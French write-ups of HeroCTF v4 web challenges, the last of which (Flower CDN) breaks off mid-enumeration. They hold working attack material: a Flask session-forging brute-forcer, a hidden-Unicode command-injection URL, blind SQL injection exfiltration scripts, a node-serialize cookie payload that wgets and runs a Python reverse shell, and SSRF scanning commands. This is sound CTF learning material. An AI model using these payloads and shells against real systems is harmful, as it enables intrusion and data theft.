


# Web HeroCTF v4

Hey, ici tu trouveras mes write-ups des challenges webs du HeroCTF v4, j'ai particulièrement aimé cette compétition avec la Medus'Hack (et Bleubytes avec le boss SeulAParis). 
J'ai rédigé tout cela après avoir flag les épreuves (je rédige dans l'ordre auquel je les ai flag), je vais essayer de vous montrer ma réflexion et ma méthodo pour vous montrer également mes tentatives d'exploit et pistes (avec ou sans succès).

# SmallBigMistake

**Description**: The website developer made a small mistake in the code of his website. Can you identify and exploit it to extract the flag?
**URL**: [https://smallbigmistake.web.heroctf.fr](https://smallbigmistake.web.heroctf.fr)
**Auteur** : *xanhacks*
**Pièce jointe**: 
```python
#!/usr/bin/env python
from flask import Flask, session, render_template

from string import hexdigits
from random import choice
from os import getenv


app = Flask(__name__)
app.secret_key = choice(hexdigits) * 32


@app.route("/", methods=["GET"])
def index():
    flag = "You are not admin !"
    if session and session["username"] == "admin":
        flag = getenv("FLAG")

    return render_template("index.html", flag=flag)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(getenv("PORT")))
```


En lisant le code source, on s'aperçoit rapidement qu'il faut avoir une session contenant "admin" dans son champs "username" pour pouvoir obtenir le flag.
Un détail du code nous interpelle rapidement:
```app.secret_key = choice(hexdigits) * 32```
Le secret utilisé pour les sessions est douteusement initialisé. En effet, choice est une fonction permettant de sélectionner aléatoirement un élément d'un tableau. Le tableau hexdigits est composé de: 0123456789abcdefABCDEF, soit 22 possibilités.
Le caractère sélectionné est ensuite répété 32 fois pour donner le secret.

Pour attaquer, rien de bien compliqué, on va réimplémenter en python de quoi créer le cookie de session, et on va tenter les 22 possibilités sur le site.

```python
import requests
from flask import session
from string import hexdigits
from random import choice
import ast
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encoder(secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        app = MockApp(secret_key)

        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)

flag = False
while not flag:
    key = choice(hexdigits) * 32
    print(key)
    session = session_cookie_encoder(key, '{"username": "admin"}')
    res = requests.get("https://smallbigmistake.web.heroctf.fr/", cookies={"session": session})
    if "not admin" not in res.text:
        print(res.text)
        exit(1)
```
On a obtient le flag: Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}


## $ where backdoor

**Description**: These web masters are trying to show off their skills. But in reality, there are kind of lazy. They left a backdoor on the server for them to do some maintenance. Find it, exploit it :)
**URL**: [https://wherebackdoor.web.heroctf.fr](https://wherebackdoor.web.heroctf.fr)
**Auteur** : *Log_s*

On se rend sur le site et on regarde tout de suite le code source HTML, ça à l'air d'être une landing page classique, on lit un peu le contenu et elle propose des fonctionnalités plutôt atypiques.
On peut télécharger le code source en plus, c'est royal ! 

On s'intéresse au server.js:
```javascript
const express = require('express');
const util = require('util');
const cors = require('cors');
const mysql = require('mysql');
const exec = util.promisify(require('child_process').exec);

const app = express();

var corsOptions = {
    origin: '*',
    optionsSuccessStatus: 200
  }
  
app.get('/test', cors(corsOptions), function (req, res) {
    const { param } = req.query;
    res.status(200).send('This is a test GET endpoint\nPARAM: '+(param || "empty"));
})

app.get("/db_connection", cors(corsOptions), async (req, res) => {
    
    const con = mysql.createConnection({
        host: "localhost",
        user: "player",
        password: "REDACTED",
        database: "user_db"
    });
    
    con.connect(function(err) {
        if (err) {
            res.status(500).send("MYSQL: connection error");
        } else {
            con.query("SELECT * FROM USERS", function (err, result, fields) {
                if (err) {
                    res.status(500).send("MYSQL: request error");
                } else {
                    output = "|===== user_db =====|\n|  USER | PASSWORD  |\n|------------------------|\n";
                    result.forEach(element => {
                        output += "| "+element.name + " | " + element.password + " |\n";
                    });
                    output+="|=================|"
                    res.status(200).send(output.trim());
                }
              });
        }
    });
});

app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];

    var t = 0;
    if (timeout != "") {
        t = parseInt(t);
    }

    try {
        output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
        res.status(200);
        res.send(output.trim());
    } catch(e) {
        res.status(500);
        res.send('Server status : ERROR');
    }
});

app.listen(3000);
```
Tout de suite, je remarque un caractère invisible (mon IDE le surligne) sur l'endpoint /server_health.

A peine quelques semaines auparavant, j'ai pu ragé sur cette même backdoor à un challenge du FCSC, j'avais lu le write-up, en effet, on peut inclure un caractère invisible qui est: **\u3164** et l'utiliser en tant que paramètre puis l'exécuter. On voit bien qu'il est récupéré en tant que paramètre de req.query, et qu'il est ensuite ajouté aux commandes exécutées.
Nous pouvons donc exécuter des commandes avec par exemple: https://wherebackdoor.web.heroctf.fr/server_health?%E3%85%A4=cat /*.txt

On obtient le flag: Hero{1nv1s1b1e_b4ckd0or_w7f}.

## Hero 1
**Description**: Pre-sales are available for the HeroCTF 5 edition. Unfortunately you saw this too late and there is a 7 days wait in the queue with only 3 days left to order...
It's up to you to figure out how to get past this line...
**URL**: [https://chall.heroctf.fr:PORT/](https://chall.heroctf.fr:PORT/)
**Auteur** : *Worty*

On arrive sur une page avec un register et un login. Je me créé un compte et m'y connecte. J'essaye en même temps avec burp de vérifier s'il n'y a pas de comportement inattendu, notamment avec les caractères **'**, **"**, **{**. J'essaye également de passer les paramètres en Array pour déclencher une erreur. 

Je regarde ensuite rapidement ce qui se passe lorsque l'on est connecté. Il semble y avoir un décompte des requêtes ? J'essaye de me créer un autre utilisateur et de faire des requêtes CURL etc pour voir si ce nombre est impacté, et non.

Il y a une communication avec un websocket pour afficher le décompte et ça m'intrigue.
```javascript
 var url = window.location.href
        var ws = new WebSocket("ws://"+url.split("/")[2]+"/ws")
        ws.addEventListener('open', (event) => {
            ws.send("join")
        });
        ws.onmessage = function(evt)
        {
            $("#msg").empty()
            var data = JSON.parse(evt.data)
            console.log(data)
            if(data["err"]) $("#msg").append("<p class='lead' style='color: red';>"+data["err"]+"</p>")
            else if(data["ok"] || data["ok"] >= 0){
                $("#progress").css("width",data["ok"]+"%")
                $("#msg").append("<p class='lead' style='color: green';>Current advancement in queue: "+data["ok"]+"%<br/>Total number of request:"+data["numberOfRequest"]+"</p>")
            }else{
                alert(data["finish"]) ? "" : window.location.href = "/form"
            }
        }
        setInterval(function(){
            ws.send("update/1") //want update current percentage (only option implemented by now)
        },3000)
```
Je peux directement interagir avec ce websocket dans la console, en écrivant par exemple : ``ws.send('update/100')``
Bien sûr, ça ne fonctionne pas. J'essaye de déclencher un comportement inattendu. Effectivement quand on envoie: ``ws.send("update/'")`` ça crash.

Ca sent la SQLI à plein nez, cependant c'est dans un websocket et il a l'air de vérifier l'origine...
Au bout de quelques payloads, je détermine que la base de donnée est en SQLITE.
Ma payload est la suivante pour avoir une error based, en gros si la requête ne fonctionne pas, elle déclenche une erreur: 
``ws.send("update/' and case when (select sqlite_version() like '%') then 1 else load_extension(1) end--")``

Grâce à cela, je peux savoir simplement en regardant si une erreur a été renvoyée, si ma requête a renvoyé un résultat ou non. Je vais pouvoir exfiltrer des données. J'ai commencé par exfiltrer la version de SQLITE pour bien debug mon script. Puis le nombre de tables, puis leur schéma SQL. Ensuite j'ai énuméré les utilisateurs dans l'espoir d'en voler un qui ait un pourcentage a 100%.

La subtilité du challenge est qu'il faut utiliser sa console directement sur le site pour interagir avec le websocket ! Pas de SQLMap :( ! Pareil pour mon script, je devais le lancer directement dans la console !

Mon script d'exfiltration est le suivant: 
```javascript
var url = window.location.href
var ws = new WebSocket("ws://"+url.split("/")[2]+"/ws")
ws.addEventListener('open', (event) => {
	ws.send("join")
});

function bfChar(exfiltred) {
	for(var i=32;i<127;++i) {
		let char = String.fromCharCode(i);
		if(char != "%" && char != "_" && !(i >= 65 && i <= 90)) {
			let guess = exfiltred + char;
			ws.onmessage = function(evt){
				var data = JSON.parse(evt.data)
				if(data["ok"]) {
					console.log(data)
					let res = data["numberOfRequest"].split("like '")
					res = res[res.length-1].split("%")[0]
					console.log("found: "+res);
					bfChar(res);
				}
			}
			let payload = "SELECT count(associateuser) FROM queue WHERE p3rc3nt4g30fus3r like '"+guess+"%'"

			ws.send("update/' and case when ("+payload + ") then 1 else load_extension(1) end--")
		}
	}
}

function run(payload) {
	runRaw("update/' and case when ("+payload + ") then 1 else load_extension(1) end--")
}

function runRaw(data) {
	ws.onmessage = function(evt){
		console.log(JSON.parse(evt.data))
	}
	ws.send(data)
}

// My payload list
let payload = "select sqlite_version() like '"+guess+"%'" # 3.38.4
let payload = "(SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'" < number_of_table # lancée avec run, me dit qu'il y a 2 tables
let payload = "SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '"+guess+"%'" # je trouve users et queue
let payload = "SELECT count(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' AND sql like '"+guess+"%'" # create table users(alias varchar(100) primary key, password varchar(1000), canaccessform int default 0)
let payload = "SELECT count(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='queue' AND sql like '"+guess+"%'" # create table queue(uuid varchar(200) primary key, origin varchar(1000), associateuser varchar(100), lastupdate date, p3rc3nt4g30fus3r varchar(1000), numberofrequest varchar(1000))
let payload = "SELECT count(alias) FROM users WHERE alias like '"+guess+"%'" # enum des users
let payload = "SELECT count(associateuser) FROM queue WHERE associateuser like '"+guess+"%'" # enum des queue associées à des users
let payload = "SELECT count(associateuser) FROM queue WHERE p3rc3nt4g30fus3r like '"+guess+"%'" # see the changes of percentage for my user
final exploit: ws.send("update/', p3rc3nt4g30fus3r=100;--")
```
J'ai fait deux fonctions, l'une pour bruteforce par caractère avec un like, l'autre pour bruteforce caractère par caractère, la deuxième est nécessaire lorsqu'on exfiltre le schéma sql.

Il y a deux tables: users et queue.

Structure de users

|                |alias                         |password                          |canaccessform                         |
|----------------|-------------------------------|-------------------------------|-----------------------------|

Structure de queue

|            |uuid      | origin     | associateuser   | lastupdate    | p3rc3nt4g30fus3r| numberofrequest|
|-----|-------------|-------------|-------------------|------------|-------------------|-----------|

Malheureusement, il semble que je sois le seul compte présent dans la base de données. Il faut donc que je parvienne à modifier mon pourcentage, vu le mal que s'est donné worty, il fallait bien récupérer le nom de la colonne. 

En réfléchissant un peu (j'ai mis du temps !), on s'aperçoit que nous sommes dans une requêtes UPDATE déjà, donc on peut modifier notre pourcentage directement ! 
La payload est la suivante: 
``ws.send("update/', p3rc3nt4g30fus3r=100;--")``

On est ensuite redirigé sur la deuxième étape du challenge où on voit le flag:
Hero{sql1_0v3r_w3bs0ck3t_1s_fun}


## Hero 2

**Description**: Ooof you got your place ! GG !
As this is not secure, there might be others things to find...
**URL**: [https://chall.heroctf.fr:PORT/](https://chall.heroctf.fr:PORT/)
**Auteur** : *Worty*

Nous avons une page avec un magnifique formulaire qui comporte un champs pour une email, et un checkbox pour un status, soit pro, soit étudiant. Il y a un troisième champs (commentaire) qui n'est même pas envoyé.
Lorsque l'on soumet le formulaire, on nous dit qu'on peut le visualiser sur /myform ! On voit bien nos données précédemment renseignées au format JSON.

On est toujours redirigés vers myform, c'est chiant, donc je veux supprimer mon cookie de session, au lieu de ça, je tombe sur un cookie completedForm qui contient nos données en base64 ! Par exemple: ``eyJlbWFpbCI6Im9raWRhYyIsInN0YXR1cyI6InN0dWRlbnQifQ`` pour ``{"email":"okidac","status":"student"}``
Dans les headers des réponses HTTP, on peut voir: ``X-Powered-By: Express``
Très intéressant !! Ca sent la vuln unserialize à plein nez ! Je vous laisse dork pour trouver des documentations / explications sur la vuln en tant que telle.

Je dork rapidement pour trouver un POC fonctionnel et je l'adapte à nos données. Je vais devoir faire un reverse shell, ou une exfiltration de données. Je choisis le reverse shell.

Premièrement je créé un fichier shell.py sur mon serveur, contenant:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("MONIP",1339))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```
Ensuite j'ouvre un serveur http simple avec python pour pouvoir le télécharger avec ma victime: 
``python3 -m http.server 1338``
Je lance également une écoute sur le port 1339 pour recevoir le shell:
``nc -lvp 1338``
Plus qu'à faire une payload qui va dans /tmp, télécharge mon reverse shell et l'exécute:
``{"status":"okidac","email":"_$$ND_FUNC$$_function (){require('child_process').exec('cd /tmp; wget http://MONIP:1337/shell.py; python3 shell.py', function(error, stdout, stderr){});}()"}``
Je la mets en base64 et en cookie et je prie pour que python3 soit installé, sinon plus qu'à trouver un autre moyen ou lancer un binaire:
Ma payload en base 64: ``eyJzdGF0dXMiOiJva2lkYWMiLCJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY2QgL3RtcDsgd2dldCBodHRwOi8vTU9JUDoxMzM3L3NoZWxsLnB5OyBweXRob24zIHNoZWxsLnB5JywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKXt9KTt9KCkifQ==``

On actualise et tada ! ``Connection from 139-177-182-251.ip.linodeusercontent.com 57220 received!``

Plus qu'à cat /flag.txt => Hero{uns3r14l1z3_sh0uld_n3v3r_b3_trust3d}

## Blackcat

**Description**: You have heard about a new event that will take place in a secret location. At this event, there doesn't seem to be any legal conferences, and it seems to gather black hat. Find a way to get the location of this conference before the deadline.
**URL**: [https://blackcat.web.heroctf.fr](https://blackcat.web.heroctf.fr)
**Auteur** : *Worty*

Voilà on arrive sur les challenges qui m'ont fait rager. Blackcat mérite amplement sa place dans cette catégorie.

On a un site visuellement incroyable, mais à la limite on s'en fiche. Tout de suite on regarde le code source HTML pour lire ce qui se passe. On voit que finalement il n'y a pas grand chose, sauf une interaction avec un endpoint. Elle renvoie une erreur "Missing parameters", alors qu'en soit en utilisation normale via le front end ça devrait fonctionner ??

Bref je m'arrache un peu les cheveux face à cette erreur, finalement, il fallait ajouter un Content-Type en application/x-www-form-urlencoded... Bref au moins maintenant on a plus cette erreur !!
```
POST /api/newsletter.php HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 18

email=mdr@live.rrr
```
On a une réponse même : 
```
{"ok":"Check at /api/check.php with your email as get parameter and this secret: 79db4c3f291ca0e2ba99 as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```
L'endpoint de check ne me permet pas d'avoir plus d'information, sauf sur le fait qu'il y a une valeur secrète qui m'empêche d'énumerer les mails ...

J'essaye donc de jouer sur le paramètre en array de l'endpoint /api/newsletter.php, ça ne fonctionne pas, mais une single quote ('), provoque une erreur ! Encore une SQLI ... J'essaye plusieurs payloads dans le but de ne pas déclencher d'erreur mais j'échoue. (De base j'avais commencé ce chall qui m'a fait rage quit pour aller faire du web3, mais on s'en branle de ma vie). 
J'ai ensuite compris que j'étais un mongole et que si ma payload ne passait pas, c'était parce-que j'étais dans un INSERT .... '
J'obtiens quelque chose dans ce style: ``MONEMAIL','okok');`--``
En me rendant sur https://blackcat.web.heroctf.fr/api/check.php?email=MONEMAIL&secret=okok, je constate que j'ai en effet pu écrire mon secret car ça fonctionne !

Plus qu'à scripter une blind, encore, en error based .... Comme précedemment, j'exfiltre déjà le nom de la base de données, puis les tables, puis leurs colonnes.

Mon script (en python cette fois !):
```python
import requests
import random
import string

def tryRawPayload(payload):
    try:
        int = random.randint(0,1000000000)
        email = f"ahahah{int}@blackcat.fr"
        sent_payload = f"{email}{payload}"
        print(sent_payload)
        res = requests.post('https://blackcat.web.heroctf.fr/api/newsletter.php', data={"email": sent_payload}, timeout=15)
        print(res.text)
        return "error" not in res.text
    except:
        return False

def tryPayload(payload):
    return tryRawPayload(f"{email}',({payload}));--")

def brute(exfiltrated):
    for char in string.printable:
        if char != "%":
            if char == "_": char = "\_"
            guess = exfiltrated + char
            if tryPayload(f"select 1 from dual where database() like '{guess}%'"):
                print(guess)
                brute(guess)

def brutePerChar(exfiltrated):
    for char in string.printable:
        if char != "%":
            guess = exfiltrated + char
            if tryPayload(f"SELECT 1 FROM dual where (SELECT ascii(substring((select secret from blackcat.newsletter limit 0,1),{len(exfiltrated)+1},1))={ord(char)}) != 0"):
                print(guess)
                brutePerChar(guess)

#brute('')
#brutePerChar('')
exit(1)
#select 1 from dual where database() like '{guess}%'  donne blackcat
#SELECT 1 FROM dual where (SELECT ascii(substring((SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),{len(exfiltrated)+1},1))={ord(char)}) != 0 : donne newsletter
#SELECT 1 FROM dual where (SELECT ascii(substring((select column_name from information_schema.columns where table_name='newsletter' limit 0,1),{len(exfiltrated)+1},1))={ord(char)}) != 0 : donne email, secret, send_date,   

```
Petite subtilité, pour ne pas avoir d'erreur alors que ma requête passe, j'ajoute un nombre aléatoire dans mon email. Si on essaye d'ajouter une email qui existe déjà ça crash sinon...

J'obtiens comme base de données: blackcat, et une seule table: newsletter.
Structure de newsletter

|                |email                          |secret                          |send_date                         |
|----------------|-------------------------------|-------------------------------|-----------------------------|

J'ai essayé de faire une error based pour exfiltrer des données de newsletter. Malheureusement aucun SELECT sur newsletter ne fonctionnait .... Même un test simple de ``SELECT sleep(5) from newsletter`` par exemple.

Finalement j'ai compris qu'il fallait plutôt qu'on modifie notre send_date, pour cela, si on peut faire plusieurs requêtes SQL d'affilées (MULTI-STATEMENT), alors on peut insérer nos propres données dans newsletter librement.
J'ai donc fait ce script et testé avec des dates sous plusieurs formats (et plusieurs dates futures):
```python
email = f"ahahah{random.randint(0,1000000000)}"
date = "2023/05/21"
tryRawPayload(f"','okok');INSERT INTO newsletter (email,secret,send_date) VALUES('{email}', 'secret', '{date}');--")

url = f"https://blackcat.web.heroctf.fr/api/check.php?email={email}&secret=secret"
res = requests.get(url)
print(res.text)
```

La réponse: 
```
We are glad that you participate at this very hidden conference !<br>Conferences will take place at 'blackcatjnhhyaiolppiqnbsvvxgcifuelkzpalsm.onion'<br>Be sure to proof that you receive this email with this sentence : Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}<br>BlackCat
```


## Flower CDN

**Description**: You are mandated to pentest this new CDN solution. To prove your exploitation, the company claims that it is impossible for you to reveal the name of its general manager, who is supposed to remain secret. It's up to you to find him.
PS: Smart bruteforce might be allowed
**Hint**: Errors can gives you a lot of informations of the current state of the web server !
**URL**: [https://flowercdn.web.heroctf.fr](https://flowercdn.web.heroctf.fr)
**Auteur** : *Worty*

Le voilà, très certainement le challenge qui m'a le plus fait rager, j'ai crié au guessing, je l'ai insulté mais finalement, il était incroyable, un grand merci à Worty qui est clairement dans le futur !

Tout d'abord, on tombe sur un site visuellement joli. On peut créer un compte ou se connecter. J'ai essayé de déclencher une erreur avec des quotes etc pour vérifier qu'il n'y avait pas de SQLI. Rien. Ensuite j'ai passé les paramètres en Array pour déclencher des erreurs. Bingo !
On apprend que le mot de passe est en md5, qu'il y a des htmlspecialchars sur les user inputs et on a ces deux paths: 
/var/www/html/api/accounts/login.php
/var/www/html/api/accounts/register.php

Bref, on continue et on se connecte.
On est sur un site qui permet d'héberger des images. 
On a une fonctionnalité de logout, qui ne semble pas vulnérable.

Il y a un endpoint qui récupère les images au format json, c'est /user/data/get, il prend un paramètre size. J'ai essayé de déclencher une erreur mais rien de concluant, il semble que ce soit une variable qui limite le compteur dans une boucle par exemple.
Le format json renvoyé est le suivant:
```json
{"0":{"id":"1287","0":"1287","link_to_img":"\/assets\/users\/jpg\/5rh80ei0kNc6Wix.jpg","1":"\/assets\/users\/jpg\/5rh80ei0kNc6Wix.jpg"},"1":{"id":"1288","0":"1288","link_to_img":"\/assets\/users\/jpg\/5Ut7ubVbuCXmyYK.jpg","1":"\/assets\/users\/jpg\/5Ut7ubVbuCXmyYK.jpg"},"2":{"id":"1290","0":"1290","link_to_img":"\/assets\/users\/jpg\/XrUfSWPrhQ5M4TX.jpg","1":"\/assets\/users\/jpg\/XrUfSWPrhQ5M4TX.jpg"},"host":"flowercdn.web.heroctf.fr"}
```

Un utilisateur peut également ajouter une image, soit via une URL, soit en l'uploadant. L'endpoint /user/data/new est call en POST avec en argument l'url si c'est une URL ou le fichier en multimedia part si c'est un upload.
J'ai encore une fois essayé de déclencher une erreur, en passant une URL inexistante comme http://x, on apprend que la fonction file_get_contents est utilisée !
```
<br />
<b>Warning</b>:  file_get_contents(): php_network_getaddresses: getaddrinfo failed: Temporary failure in name resolution in <b>/var/www/html/api/user/new_data.php</b> on line <b>28</b><br />
<br />
<b>Warning</b>:  file_get_contents(http://x): failed to open stream: php_network_getaddresses: getaddrinfo failed: Temporary failure in name resolution in <b>/var/www/html/api/user/new_data.php</b> on line <b>28</b><br />
```
On a également un nouveau path: 
/var/www/html/api/user/new_data.php

Je fais différents tests qui me permettent de connaître ces conditions:
- l'URL doit commencer par http:// ou https://
- le fichier doit être une image ou alors nous avons une erreur
- l'url doit être accessible

On ne peut donc pas utiliser des wrappers pour de l'arbitrary file reading, de toute façon nous n'aurons aucun retour si ce n'est pas une image ... J'ai réfléchi au moyen de faire upload un fichier avec une extension en .php, étant une image avec du code PHP dans les headers, pour pouvoir ensuite me rendre dessus et avoir une exécution de code.
Cependant, les images téléchargées sont renommées aléatoirement, et l'extension est bien écrite.

J'ai ensuite essayé d'attaquer la fonctionnalité d'upload, notamment en passant un null byte pour ajouter une extension PHP, même échec. J'étais à court d'idées.

Il me fallait un moyen d'avoir une LFI par exemple pour aller lire mon fichier et avoir une exécution de code.

Parallèlement, j'avais lancé un énorme dirb (bruteforce intelligent comme dit dans l'énoncé mdr), avec la wordlist big.txt et les extensions .html et .php.

Ca m'a notamment permis de connaître d'autres paths comme:
```
/var/www/html/api/accounts/login.php
/var/www/html/api/accounts/logout.php
/var/www/html/api/accounts/register.php
/var/www/html/api/functions/helpers.php
/var/www/html/api/user/new_data.php
/var/www/html/api/user/delete_data.php
/var/www/html/api/user/get_data.php
```
et un fichier de template sur /templates/header.html de mémoire.
Il y avait également un endpoint /server-status mais le code d'erreur me montrait qu'il ne fallait pas y prêter attention. Il y avait aussi un robots.txt mais inutile.

Bref j'ai commencé à rager sec à partir de ce moment là. Heureusement, du sang neuf est venu me soutenir, Itarow. Il m'a demandé pourquoi je n'énumérais pas le réseau local, effectivement pourquoi pas ! SSRF goes brrr...
J'ai utilisé wfuzz et je fournissais comme url des IPs internes, j'ai pu énumerer des IP accessibles et des ports (et aussi défoncer l'infra en tapant la gateway en .1, pourquoi ? Bonne question mais c'était drôle).
La commande utilisée est la suivante
```bash 
wfuzz -z range,2-200 -z range,1-6000 -b PHPSESSID=b66f9b93043e0ea5998b486206739ae8 -d "url=http://172.25.0.FUZZ:FUZ2Z/" --ss "true" https://flowercdn.web.heroctf.fr/user/data/new
```

Une fois énuméré, on ne pouvait pas savoir à quoi correspondait ces IPs, donc j'ai utilisé le challenge backdoor en web avec un reverse shell pour faire des curl en local et "étiquetter les services".
```
172.25.0.3 => 80 => Flower CDN
172.25.0.2 => 80/3000 => backdoor
172.25.0.4 => 80 => blackcat

172.25.0.6 => 5000 => small big mistake or ???
172.25.0.7 => port 80/443 => small big mistake or ???
```
Le virtualhost de base était small big mistake, donc un des deux endpoints ici était small big mistake, et l'autre était inconnu et devait avoir un ServerName bien défini, or je ne le connaissais pas...

Après encore beaucoup de haine et de pleurs, j'ai par hasard décidé de me rendre sur /server-status de Flower CDN. J'ai alors eu un message d'erreur me dévoilant le nom de domaine en local qui était flowercdn.hero ! Bingooo ! 

Je m'empresse de l'ajouter à mon /etc/hosts en le faisant pointer sur l'IP de Flower CDN. Et pas bingo ! Ca me met bien Flower CDN et rien de plus....
J'ai repensé au hint: "bruteforce intelligent", j'ai alors essayé subfinder sur l'hote, mais forcément je n'ai pas défini tous les sous-domaines possibles dans mon /etc/hosts, alors ça ne peut pas fonctionner...

Mais on peut soi-même tenter un sous-domaine par exemple avec curl, en requetant directement sur l'IP et en fournissant dans le header Host notre nom de domaine. J'ai alors téléchargé une liste de sous-domaines pour énumérer avec wfuzz.

`` wfuzz --hh 423 -z file,subdomains.txt -H "Host: FUZZ.flowercdn.hero" https://192.46.233.16``

Et OUH OHHHH !!
```

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

002486:  C=401     14 L       54 W          475 Ch        "documentation"
```
Il existe un magnifique endpoint: documentation.flowercdn.hero ! Qui correspond certainement à notre IP locale inconnue.
J'ajoute ça à mon /etc/hosts du coup et je me rend dessus !

AH, une basic auth !! Je tente admin en username et admin en password.
Ca passe !!!
Et là super, j'ai une magnifique "documentation" d'une API interne.
```
This API is used to search for people in our company:

-   / :  
    Method: GET  
    Params: ❌  
    Goal: Show you a welcome message 😊
  
-   /search :  
    Method : GET  
    Params :  
    - name : name of employee  
    - surname : surname of employee  
    - searchby : name or surname  
    Goal : Search for a person in the directory 🔎
```

J'ai également le code source:
```python
from flask import Flask, request
from time import sleep
from json import loads

employees = loads(open("employees.txt","r").read()) #todo : use ldap queries to recover users

app = Flask(__name__)
@app.route('/',methods=["GET"])
def index():
    return "Welcome to the internal employee search api. To use this service, please read the associated documentation on the associated private github repository."

@app.route('/search',methods=["GET"])
def search():
    if(request.args.get("name") and request.args.get("surname") and request.args.get("searchby")):
        if request.args.get("searchby") in ["name","surname"]:
            searchBy = request.args.get("searchby")
            for employee in employees:
                found = True
                for i in range(len(request.args[searchBy])):
                    if i >= len(employee[searchBy]): break
                    if(request.args[searchBy][i] == employee[searchBy][i]):
                        #we load this library from our modified python binary, so don't be afraid to not have this method, it is included in your workspace ;)
                        #moreover, we fix the log4j vulnerability and now we use a tool developed by google as third party, so no more RCE.
                        #todo: fix delay between this server and the logger of google, it's quite long and boring for big queries
                        send_search_to_logger(f"{ip} search for caracter {request.args[searchBy][i]}") 
                    else: 
                        found = False
                        break
            if(found):
                return f"Found an employee that match your research (potentially partially): {employees[0]['name']} {employees[0]['surname']}"
            else: return "Not found"
        else: return "Invalid value for parameter 'searchBy'"
    else: return "Missing parameter, please check the documentation."

app.run(host="0.0.0.0",port="80")
```
En lisant le code attentivement, on s'aperçoit qu'il n'y a pas de vulnérabilité, cependant quelque chose nous interpelle, le script compare caractère par caractère, or si le caractère est juste, alors il appelle une fonction qui met du temps à répondre !
Intéressant, si on teste caractère par caractère et qu'on regarde le temps de réponse, on pourra alors exfiltrer les noms et prénoms des employés (le format du flag quoi !!).

Plus qu'à trouver cette API, et utiliser notre SSRF sur Flower CDN pour la contacter ! Avec un script qui mesure les temps de réponse pour les caractères, on pourra exfiltrer des données.

Après m'être fait brainfuck parce que je ne trouvais pas l'endpoint, je me suis souvenu qu'il y avait dans les headers de Flower CDN un champs "x-internal-ip 172.25.0.3", qui quelques heures plus tôt était 172.26.0.4 !! Il y a donc plusieurs networks !
(Au moment du write-up je vois que le champs et repassé à 172.26.0.4)

Je lance donc une énumération rapide dessus avec notre SSRF (on ne peut pas le joindre depuis la machine backdoor...):
```
wfuzz -z range,2-200 -b PHPSESSID=b66f9b93043e0ea5998b486206739ae8 -d "url=http://172.26.0.FUZZ/" --ss "true" https://flowercdn.web.heroctf.fr/user/data/new
```
